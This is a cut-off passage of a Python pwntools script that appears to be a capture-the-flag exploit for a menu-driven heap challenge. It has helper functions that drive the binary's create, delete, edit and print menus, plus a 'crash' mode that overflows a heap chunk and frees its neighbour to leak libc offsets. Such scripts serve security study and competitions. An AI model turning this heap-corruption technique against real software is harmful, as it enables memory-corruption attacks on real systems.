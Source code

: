 ```python
    gdb.attach(p, GDB)
else:
    print "args: bin|net|crash|ida|gdb\n"
    sys.exit(1)


def create(idx, size, val="0"):
    print p.recvuntil("> ")
    p.sendline("1")
    print p.recvuntil(": ")
    p.sendline(str(idx))
    print p.recvuntil(": ")
    p.sendline(str(size))
    print p.recvuntil(": ")
    p.sendline("0") #binary
    print p.recvuntil(": ")
    p.sendline(val)
    print " >> %d created" % idx

def delete(idx):
    print p.recvuntil("> ")
    p.sendline("2")
    print p.recvuntil(": ")
    p.sendline(str(idx))

def edit(idx, val, b="1"):
    print p.recvuntil("> ")
    p.sendline("3")
    print p.recvuntil(": ")
    p.sendline(str(idx))
    print p.recvuntil(": ")
    p.sendline(b) #string
    print p.recvuntil(": ")
    p.sendline(val)

def print_one(idx):
    print p.recvuntil("> ")
    p.sendline("5")
    print p.recvuntil(": ")
    p.sendline(str(idx))
    print p.recvline(False)
    print p.recvuntil(": ")
    r = p.recvuntil("-----***-----")
    print r
    return r

def change_key(k):
    print p.recvuntil("> ")
    p.sendline("7")
    print p.recvuntil(": ")
    p.sendline(k)
    print p.recvuntil(": ")
    p.sendline(k)


print p.recvuntil("key: ")
p.sendline("wjigaep;r[jg]ahrg[es9hrg")

if sys.argv[1] == "crash": #use offsets in dump to discover the libc version
    create(0,24)
    create(1,24)
    edit(0, "a"*24)
    delete(1)
```